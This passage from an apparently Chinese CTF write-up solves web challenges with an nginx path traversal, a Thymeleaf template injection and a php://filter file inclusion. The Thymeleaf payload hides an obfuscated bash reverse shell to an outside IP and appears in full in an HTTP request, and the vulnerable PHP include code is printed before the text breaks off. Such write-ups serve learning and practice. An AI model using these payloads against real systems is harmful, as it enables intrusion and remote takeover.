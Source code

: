猜测是个路径遍历问题，试了一下/files/果然列出了路径，构造一个指向/tmp目录的路径，下载flag文件拿到flag。

```text
https://vul-nginx-ctf.dun.mi.com/files../tmp/
```

### web-10 标准模板：欢迎光临

放出hint提示模板引擎使用了thymeleaf，看路径包含的页面是通过url参数传入的，构造POC执行反弹shell

```text
PATH=
__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("bash -c {echo,YmFzaCAtaSA JiAvZGV2L3RjcC8xMC4yMzUuNDguMzYvODIxMiAwPiYx77u/}|{base64,-d}|{bash,-i}").getInputStream()).next()}__::.x
```

```http request
GET /welcome?path=__%24%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22bash%20-c%20%7becho%2cYmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4yMzUuNDguMzYvODIxMiAwPiYx77u%2f%7d%7c%7bbase64%2c-d%7d%7c%7bbash%2c-i%7d%22).getInputStream()).next()%7d__%3a%3a.x HTTP/2
Host: vul-tm-ctf.dun.mi.com
 http/2: 
Cookie: MIDUNCOOKIE
Sec-Ch-Ua: "Not:A-Brand";v="99", "Chromium";v="112"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9


```

### web-11 unserialize

题目提示给了两个参数file和data，file是一个文件包含命令，data的作用还不知道。

首先通过file将index.php的源码获取过来

```text
http://10.167.34.63/index.php?file=php://filter/read=convert.base64-encode/resource=index.php
```

base64解码后就变成了一个实际的代码审计题目

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/flag/i", $file)){
        die("我知道你知道了文件位置，但请不要直接获取它");
    }
    else{
        include "$file";
    }
}


class Example {
    public $file;

```